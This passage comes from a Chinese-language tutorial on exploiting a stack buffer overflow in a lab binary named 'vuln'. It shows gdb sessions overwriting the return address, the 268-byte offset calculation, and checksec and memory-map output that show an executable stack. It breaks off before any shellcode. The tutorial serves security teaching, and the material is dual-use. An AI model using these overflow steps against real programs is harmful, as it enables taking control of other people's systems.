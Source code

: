 ```shell
```
效果如下：
```
...
...
Program received signal SIGSEGV, Segmentation fault.
...
Stopped reason: SIGSEGV
0x41414141 in ?? ()
Missing separate debuginfos, use: debuginfo-install glibc-2.17-292.el7.i686
gdb-peda$ p/x $eip  
$1 = 0x41414141
```
#### 测试第二步：缓冲区到Return Address的offset是多少
结果显示offset为`0x10c`
> 0x10c = 0x100 + 0x8 + 0x4

其中
- 0x100是`buf`的长度
- 0x8 是栈对齐长度（alignment space）
- 0x4 存放呼叫者（本文中的main方法）的EBP值

我们来验证下：通过输入`“A” * 268 + “B” * 4`来将return address将"AAAA"变为"BBBB"
```shell
gdb vuln 
gdb-peda$ r `python -c 'print "A"*268 + "B"*4'` 
```
效果如下
```
...
...
Program received signal SIGSEGV, Segmentation fault.
...
...
Stopped reason: SIGSEGV
0x42424242 in ?? ()
Missing separate debuginfos, use: debuginfo-install glibc-2.17-292.el7.i686
```
这样我们就可以通过控制return address来控制程序

### exp流程
查看程序保护方式
```shell
python
>>> from pwn import *
>>> ELF('vuln').checksec()
[*] '/root/sploitfun/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```
查看栈的读写运行权限，发现栈空间可读可写可运行
```
 H localhost.localdomain  root  ~  more /proc/13972/maps
08048000-08049000 r-xp 00000000 fd:00 69981926                           /root/sploitfun/vuln
08049000-0804a000 r-xp 00000000 fd:00 69981926                           /root/sploitfun/vuln
0804a000-0804b000 rwxp 00001000 fd:00 69981926                           /root/sploitfun/vuln
f7e01000-f7e02000 rwxp 00000000 00:00 0 
f7e02000-f7fc6000 r-xp 00000000 fd:00 34048627                           /usr/lib/libc-2.17.so
f7fc6000-f7fc7000 ---p 001c4000 fd:00 34048627                           /usr/lib/libc-2.17.so
f7fc7000-f7fc9000 r-xp 001c4000 fd:00 34048627                           /usr/lib/libc-2.17.so
f7fc9000-f7fca000 rwxp 001c6000 fd:00 34048627                           /usr/lib/libc-2.17.so
```
